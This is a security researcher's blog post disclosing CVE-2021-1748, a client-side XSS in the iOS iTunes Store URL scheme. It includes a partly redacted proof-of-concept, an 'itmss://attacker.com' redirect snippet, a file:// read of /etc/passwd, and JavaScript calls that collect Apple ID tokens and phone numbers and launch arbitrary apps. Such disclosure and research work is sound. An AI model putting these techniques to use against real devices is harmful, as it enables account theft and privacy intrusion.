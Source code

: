 ```yaml
---
layout: post
title:  "Mistuned Part 1: Client-side XSS to Calculator and More"
image:  /img/2021-08-04-mistuned-part-i/mistune.png
desc:   Remotely pwn iOS and pop up arbitrary app with 0 memory corruption.
---
```


Ever since Pointer Authentication Code (PAC) has been introduced, iPhone remained standing for more than two years on various pwn contests until TianfuCup 2020 (Project Zero has reported a remote zero click exploit in 2019). Ant Security and Qihoo 360 used two different bug chains respectively to successfully gained remote code execution with userspace sandbox escape on iPhone 11 with iOS 14.2.

In a series of post, I am going to disclouse the bugs I used for full-chain remote code execution. Born with Generation Z, these bugs were introduced by iOS 3 and iOS 6 respectively, however they were still able to fully bypass various protections on a state-of-the-art mobile phone at the time.

## Client-side XSS from iOS 3

The exploit starts from a malicious page in MobileSafari. Instead of attacking MobileSafari itself, there is a well-known attack surface named URL Schemes or Universal Links. It's the resource locator for Apps. Web pages can open local apps with a formatted URL. In MobileSafari, some built-in Apple apps are trusted unconditionally, including App Store and iTunes. There is no user confirmation before inter-app navigation.

Back to [Pwn2Own 2014](https://www.securityweek.com/mobile-pwn2own-2014-iphone-5s-galaxy-s5-nexus-5-fire-phone-hacked), Jung Hoon Lee used `itmss://` to open arbitrary untrusted website in iTunes, leading to sandbox escape. An additional memory corruption bug was used to gain code execution. It has been assigned to [CVE-2014-8840](https://support.apple.com/en-us/HT204245).

```js
<script>
location = 'itmss://attacker.com';
</script>
```

iOS then introduced a trusted domain list in this URL scheme. Before loading the page, it fetches a configuration from [this URL](https://sandbox.itunes.apple.com/WebObjects/MZInit.woa/wa/initiateSession). The configuration is an XML serialized property list. The hostname of the page must match the following suffix defined in `trustedDomains` field.

```xml
<key>trustedDomains</key>
<array>
  <string>.apple.com.edgesuite.net</string>
  <string>.asia.apple.com</string>
  <string>.corp.apple.com</string>
  <string>.euro.apple.com</string>
  <string>.itunes.apple.com</string>
  <string>.itunes.com</string>
  <string>.icloud.com</string>
```

If the domain matches, iTunes Store will render the page in its `SUWebView`, which is a subclass of the deprecated `UIWebView` in HTTPS. We can't Man-in-the-middle to hijack the HTML, but any XSS in the trusted domain can inject Javascript to this app.

However, after analyzing the following methods, I found another bypass introduced by iOS 3 to achieve client-side XSS.

* `-[SUStoreController handleApplicationURL:]`
* `-[NSURL storeURLType]`
* `-[SUStoreController _handleAccountURL:]`
* `-[SKUIURL initWithURL:]`

**This bug could affect a wide range of iOS versions. Part of the PoC is redacted to help protect users that stay below 14.3 due to hardware limitations or at their will.**

Given certain combination of parameters, this `itms` URL will force the app to ignore the hostname but load a secondary URL provided by the query string instead: `itms://<redacted>&url=http://www.apple.com`. While the hostname still has to match the trust list, it allows plain text http communications and some domains in the list like `support.mac.com` don't have HSTS, making them vulnerable to interception. Furthermore, according to the disassembly, it trusts arbitrary data URI in addition to the allowed host names: `itms://<redacted>&url=data:text/plain,hello`. This is basically a reflected XSS since it can carry arbitrary inline HTML. 

The app always appends a question mark after the URL, trying to append extra querstring. This breaks base64 encoding, but plain text works just fine. Here's an example of the inter app script inection.

```js
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  iTunes.alert('gotcha'); // do ya thing
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('itms://<redacted>');
// part of the PoC is redacted to prevent abuse
url.searchParams.set('url', data);
location = url
```

The earliest firmware that has the vulnerable code is `Kirkwood7A341`, which was released back to 2009.

`SUWebView` is a subclass of `UIWebView`, so it doesn't have isolated renderer processes. A common misunderstanding for WebView is that only `WKWebView` has JIT optimization. Actually it's controlled by the `dynamic-codesigning` entitlement. iTunes Store has this entitlement to speed up `JSContext` execution, but it happens to create an environment that any working exploit (nomatter the type, JIT or DOM) in MobileSafari works here as well, without concerning about the WebContent sandbox.

Due to the system enforcement, to use `mmap(MAP_JIT)`, the process must be sandboxed. So iTunes Store still has `app-container` after all, but it's got much more access compared to WebContent and even third-party apps. It has been granted even more entitlements for privacy related access like camera and AppStore credentials. It's probably the highest privilege that shellcode could get after `jsc` interpreter had been removed from iOS.

But everything comes with a price. In this context, the exploit has only one chance to get remote code execution, or the app dies. There is no such thing like auto recover for browser tabs. It has a high demand for reliability of the exploit. Besides, this bug redirects from MobileSafari to iTunes Store, leaving significantly observable animation in the UI, so it's not ideal for real attackers.

On iOS 14, iTunes Store is not the only vector. There is a StoreKitUIService app that suffers the same flaw. The only difference is the URL Scheme is `itms-ui`, rather than `itms`. StoreKitUIService is also responsible for delievering OTA enterprise apps. It has almost no UI impact compared to the former. Unfortunately `itms-ui` is not trusted. MobileSafari warns before opening the URL. However, if the payload is delivered through iMessage, AirDrop or some 3rd-party instant messengers, it doesn't matter because such scenarios don't require extra confirmation.

This bug has been assigned to CVE-2021-1748.

## Memory Corruption-free Exploitation

Before getting into the code execution, this client-side XSS is interesting because it allows reading sensitive information and arbitrary app execution.

The `UIWebView` uses obsolete `WebScripting` API to export extra methods to Javascript. `WebScripting` translates Javascript invocations to Objective-C, with known data types automatically converted. There is an `iTunes` namespace in `globalThis` context, which is bunded to an `SUScriptInterface` instance. It has interfaces as follows:

**Fingerprinting**. `iTunes.systemVersion()` and `userAgent` can tell the OS version and the model of SoC, which are useful for adjusting the exploit.

**Apple ID**. `iTunes.primaryAccount?.identifier` is the Apple ID for App Store and iTunes.`primaryiCloudAccount?.identifier` is the iCloud account. Besides, any outgoing http requests, no matter what the domain is, will have extra headers for Apple ID authentication. Even two-factor authentication (2FA) related tokens like `X-Apple-I-MD` and `X-Apple-I-MD-M` are included.

```js
{
  'icloud-dsid': '***',
  'x-apple-store-front': '143465-19,29',
  'x-dsid': '***',
  'x-apple-client-versions': 'iBooks/7.2; iTunesU/3.7.4; GameCenter/??; Podcasts/3.9',
  'x-mme-client-info': '<iPhone12,3> <iPhone OS;14.2;18B92> <com.apple.AppleAccount/1.0 (com.apple.MobileStore/1)>',
  'x-apple-i-timezone': 'GMT+8',
  'x-apple-i-client-time': '2020-11-06T14:46:07Z',
  'x-apple-i-md-rinfo': '17106176',
  'x-apple-adsid': '***',
  'x-apple-connection-type': 'WiFi',
  'x-apple-partner': 'origin.0',
  'x-apple-i-locale': 'zh_CN',
  'x-apple-i-md-m': '***',
  'x-apple-i-md': '***'
}
```

**Disk space**. `iTunes.diskSpaceAvailable()` tells the available disk space of the phone.

**Telephony**. `iTunes.telephony` is a namespace that gives the phone number, operator and provider of the victim. Imagine this, there is no need to ask the number for a person that attracts you in a party. Just AirDrop the bait and wait for response.

**Reading textual files (within the container)**. `SUScriptInterface` has a custom AJAX implementation that doesn't enforce same-origin policy. The only limit is that the hostname must match a certain trusted list (different from the former). The implementation is based on `NSURL` and it doesn't check for the scheme, so I can use file URLs to read a local path, where the hostname will be discarded: `file://r.mzstatic.com/etc/passwd`. Unfortunately the result is `NSString` backed so it doesn't support binary data. After all, this app has no direct access to the full disk because of the sandbox.

**Arbitrary app enumeration and execution**. `iTunes.installedSoftwareApplications` is an array of all installed apps. It even supports launching app by identifier. Here is how I managed to launch calculator from web without touching any modern memory safety mitigations:

```js
const app = iTunes.softwareApplicationWithBundleID_('com.apple.calculator')
app.launchWithURL_options_suspended_('calc://1337', {}, false);
```

![Calculator Demo](/img/2021-08-04-mistuned-part-i/calc.gif)

## Conclusion

CVE-2021-1748 is just anther fresh example of my previous BlackHat Talk [Cross-site Escape](https://i.blackhat.com/eu-20/Thursday/eu-20-Zhou-Cross-Site-Escape-Pwning-MacOS-Safari-Sandbox-The-Unusual-Way.pdf). A client side XSS disarms the sandbox and exposes a bigger attack surface by exposing extra methods to JavaScript. It doesn't even need memory corruption at this point to launch Calculator app.

In the upcoming posts, I'll introduce a secondary UAF bug (CVE-2021-1864) to gain various memory primitives, build arbitrary invocation, and finally bypass both PAC and APRR to load arbitrary shellcode in the context of iTunes Store app.
